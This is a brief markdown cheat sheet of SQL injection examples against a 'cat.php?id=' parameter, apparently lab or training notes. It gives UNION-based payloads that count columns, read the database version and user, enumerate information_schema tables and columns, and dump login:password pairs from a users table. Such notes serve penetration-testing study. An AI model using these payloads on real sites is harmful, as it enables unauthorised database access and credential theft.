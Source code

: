 # SQLi examples

## Enumeration

* math operation

`url/cat.php?id=4-1` gives id=3

* Find columns using ORDER BY

`cat.php?id=2 ORDER BY 4`

* Find columns using UNION statement

[http://vulnerable.site/cat.php?id=2  UNION SELECT 1,2,3,4](http://vulnerable.site/cat.php?id=2%20%20UNION%20SELECT%201,2,3,4)

* Get version

`@@version`

* Get current user 

`user()`

* Get tables names

`url/cat.php?id=2%20 UNION SELECT 1,table_name,3,4 FROM information_schema.tables`

* Get user and password from users tables \(concat both together\)

We cannot use \* ...

Column\_name from information\_schema.columns

`url/cat.php?id=2%20 UNION SELECT 1,column_name,3,4 FROM information_schema.columns`

![](../../../../.gitbook/assets/99e80ab4763d4624806f80b5b813d6b9.png)

`url/cat.php?id=2%20 UNION SELECT 1,concat(login,":",password),3,4 FROM users`

